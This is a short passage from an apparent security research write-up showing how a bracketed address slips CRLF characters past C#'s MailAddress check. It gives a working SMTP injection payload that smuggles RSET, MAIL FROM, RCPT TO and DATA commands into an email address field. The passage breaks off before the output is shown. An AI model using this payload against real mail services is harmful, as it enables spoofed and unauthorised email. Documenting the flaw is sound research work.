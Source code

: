 It's important to understand that the MailAddress class in C# performs filtering:

```C#
to_string="<slonser.bugbounty@\r\nyandex.ru>";
sendMessage(to_string);
```
You will see that the input is validated and newline characters are removed:
 ![](./1.jpg)

But `[]`...:
```C#
var to_string = "sevakokorin80@[test\r\nslonser]";
sendMessage(to_string);
```
Output:
![](./2.jpg)

This means we have the opportunity to insert CRLF in the address. Therefore, let's try to use SMTP injection.

```
slonser@[test
RSET
MAIL FROM: <slonser.bugbounty@yandex.ru>
RCPT TO: <recipient@yandex.ru>
DATA
From: slonser.bugbounty@yandex.ru

Changed
.
QUIT
]
```
And you will see output: